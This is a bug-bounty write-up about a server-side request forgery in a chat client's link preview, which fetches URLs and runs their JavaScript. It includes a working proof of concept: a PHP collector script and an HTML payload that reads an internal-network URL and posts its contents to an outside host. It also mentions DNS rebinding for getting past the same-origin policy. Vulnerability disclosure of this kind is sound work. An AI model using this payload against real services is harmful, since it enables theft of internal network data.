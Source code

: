 # [bugbounty]A Simple SSRF

This is a private program<br>
First of all, its web assets have several subdomains. After I tested it for a while, I plan to check out the mac client.
After installation, sign up for login, then I see a chat interface.<br>
Send a URL
![enter image description here](https://github.com/Jinone/jinone.github.io/blob/master/_posts/1.png)
It seems to preview the url, return a title and favicons<br>
I use my server ip to test. Then received<br>
![enter image description here](https://github.com/Jinone/jinone.github.io/blob/master/_posts/t3.png)
Found that is the browser's ua header<br>
Then I tested it http://127.0.0.1 https://127.0.0.1 file://etc/passwd ....<br>
Tested a lot of common internal ip<br>
But<br>
![enter image description here](https://github.com/Jinone/jinone.github.io/blob/master/_posts/t1.png)
![enter image description here](https://github.com/Jinone/jinone.github.io/blob/master/_posts/t2.png)
No effect<br>
Then I tried the subdomain brute force, as well as some asset discovery sites to find internal ip<br>
Until there is an ip<br>
![enter image description here](https://github.com/Jinone/jinone.github.io/blob/master/_posts/t4.png)
Seems to be successful<br>
Then I quickly submitted the vulnerability<br>
But<br>
![enter image description here](https://github.com/Jinone/jinone.github.io/blob/master/_posts/t5.png)
As written above, we can only get a very small amount of content.<br>
After testing, I found that it will also execute js because it is browser ua<br>

  

 

    <html><p id='d1'></p>
    <script>
        function get(url) {
            try {
                var req = new XMLHttpRequest();
                req.open('GET', url, false);
                req.send(null);
                if(req.status == 200)
                    return req.responseText;
            } catch(err) {
            }
            return null;
        }
        var role = get('https://google.com');
        document.getElementById("d1").innerHTML=role.length;
    </script></html>
![enter image description here](https://github.com/Jinone/jinone.github.io/blob/master/_posts/t6.png)
Can successfully get Google returns the content length<br>
Does not seem to be blocked by Same Origin Policy<br>
Then we can get any internal network content<br>
**poc**<br>
xxx.php

    <?php
    file_put_contents("save.txt", $_POST['cc'] . "\n", FILE_APPEND);
    ?>
poc.html

    <html><p id='d1'></p>
    <script>
    function get(url) {
        try {
            var req = new XMLHttpRequest();
            req.open('GET', url, false);
            req.send(null);
            if(req.status == 200)
                return req.responseText;
        } catch(err) {
        }
        return null;
    }
    function post(url,content){
        var req = new XMLHttpRequest();
        req.open("POST", url, true);
        var formData = new FormData();
        formData.append("cc", content);
        req.send(formData);
    }
    var role = get('https://Internal ip');
    post('https://xxxxxxxxxxx.com/xxx.php',escape(role));
    document.getElementById("d1").innerHTML=role.length;
    </script></html>
Then check save.txt<br>
![enter image description here](https://github.com/Jinone/jinone.github.io/blob/master/_posts/t8.png)
Url decoding<br>
![enter image description here](https://github.com/Jinone/jinone.github.io/blob/master/_posts/t9.png)

**If Same Origin Policy blocks**<br>
Bypass Same Origin Policy with DNS-rebinding to retrieve  Internal server .<br>
![enter image description here](https://user-images.githubusercontent.com/5891788/53449161-87e47300-3a19-11e9-8e3c-7b7bdfeaab6b.png)

Details from https://github.com/mpgn/ByP-SOP<br>
Finally ![enter image description here](https://github.com/Jinone/jinone.github.io/blob/master/_posts/t11.png)
